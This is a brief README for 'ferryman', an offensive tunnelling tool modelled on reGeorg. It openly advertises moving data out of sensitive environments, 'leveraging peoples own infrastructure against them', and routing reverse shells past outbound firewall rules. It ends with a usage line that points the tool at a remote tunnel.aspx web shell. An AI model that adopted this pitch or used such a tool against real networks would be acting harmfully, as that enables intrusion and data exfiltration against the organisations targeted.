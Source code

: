# ferryman

Inspiration taken from: https://github.com/sensepost/reGeorg

Ever wanted to traffic data out of a sensitive environment? Do you like leveraging peoples own infrastructure against them?  
Well now you can! 

Using ferryman, you can open a local port and traffic any data out just as if you were directly connecting to your service. 

Want to catch a regular reverse shell? But cant due to outbound firewall rules? 
Just use ferryman to open a port on the target machines local host, and point your reverse shell to that. Easy beans. 


# Usage

```
ferryman <Service to forward data to> <remote tunnel.aspx path> <local port to open>
ferryman 127.0.0.1:80 https://foobeans.com/tunnel.aspx 5555
```
